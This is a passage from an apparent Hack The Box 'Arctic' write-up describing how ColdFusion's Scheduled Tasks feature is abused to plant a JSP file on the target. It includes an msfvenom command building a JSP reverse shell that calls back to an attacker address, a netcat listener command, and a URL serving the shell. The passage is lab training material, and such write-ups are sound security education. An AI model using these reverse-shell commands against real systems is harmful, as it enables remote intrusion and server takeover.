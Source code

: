 ![](/assets/htb-arctic/cf_schedualed_tasks.png)

As you can see, it appears to try to pull form the URL we specify at the interval we set. By default, ColdFusion runs `*.cfm` extensions, but will also run JSP files. We can create a malicious JSP file with `msfvenom`, using the below code.

```
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.34 lport=7500 -f raw > shell.jsp
```

Now all that we have to do is stand up a HTTP server with `updog` to serve the file, and open a listener for the shell with `rlwrap nc -lvnp 7500`.

> If you haven't already, check out the [Updog repo on GitHub](https://github.com/sc0tfree/updog). I find it much easier then using the Python modules as normal.

Fill out the Scheduled Tasks form, with the URL pointing to `http://10.10.14.34:9090/shell.jsp`. However, we need to write the file to the server, but we need to know the exact folder path where documents are being served from.
